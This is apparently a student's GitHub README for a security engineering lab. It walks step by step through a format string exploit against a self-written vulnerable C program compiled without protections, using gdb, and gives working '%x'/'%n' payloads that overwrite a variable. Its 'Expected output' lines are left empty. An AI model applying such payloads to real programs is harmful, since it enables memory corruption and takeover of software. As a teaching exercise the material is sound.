










# sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or (Im not sure this worked for me, this doesn't work for me now so better to use the above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: 

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: 

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 7
```
8. Run the program again
```
    run %x
```
Expected output:

9. Check the content on the %esp registers by running
```
    x/100x $esp
```
Should return: 

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. **Try and fail**
    Start the new debugging of the program so you are not stopped by the break (there must be a way to remove the break ;)) (Use 'q' to quit and then start from fresh)
    `gdb vuln`
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: 
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: 

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   

   Note: I just rerun that and my working command looked like this:
```
   run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
```
 and the distance calculation was 141 so I guess it is always slightly different but close enough


   
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly 
```
(gdb)      run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
Starting program: /home/olg4/learning/week22/vuln `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
AAAABB4020e000.0.4006920b.4020e3fc.0.bffff378.80484e7.bffff580.bffff424.bffff430.8048521.4000f9d0.bffff390.0.40051e91.4020e000.4020e000.0.40051e91.2.bffff424.bffff430.bffff3b4.1.0.4020e000.4000f77a.40027000.0.4020e000.0.0.851c2a68.70c7ad97.0.0.0.2.8048370.0.40014dc0.4000f9d0.804a000.2.8048370.0.80483a2.80484c3.2.bffff424.8048500.8048560.4000f9d0.bffff41c.40027940.2.bffff560.bffff580.0.bffff736.bffff749.bffffd35.bffffd69.bffffd8b.bffffd9a.bffffda7.bffffdc2.bffffe0d.bffffe20.bffffe2a.bffffe49.bffffe52.bffffe62.bffffe84.bffffec5.bffffed8.bffffee4.bffffef8.bfffff0c.bfffff1c.bfffff24.bfffff31.bfffff50.bfffffb8.0.20.4002bb50.21.4002b000.10.1f8bfbff.6.1000.11.64.3.8048034.4.20.5.9.7.40000000.8.0.9.8048370.b.81c.c.81c.d.7d0.e.7d0.17.0.19.bffff54b.1a.0.1f.bfffffd8.f.bffff55b.0.0.0.0.d000000.859f2e13.458bbd7d.1365d6c3.69e5b851.363836.6d6f682f.6c6f2f65.6c2f3467.6e726165.2f676e69.6b656577.762f3232.6e6c75.41414141
```

12. Find the address of the 'target' variable 
- To find the target variable type:
  ```
  p &target
  ```
- The output should be:

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun): in my case it is `AAAA`->`"\x28\xa0\x04\x08"`
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Note: when I re-run this my command was this:
```
run `(python -c 'print "\x28\xa0\x04\x08"+"BB" + "%x." * 143+"%n"')`
```

Output:
14. Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed



##Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works


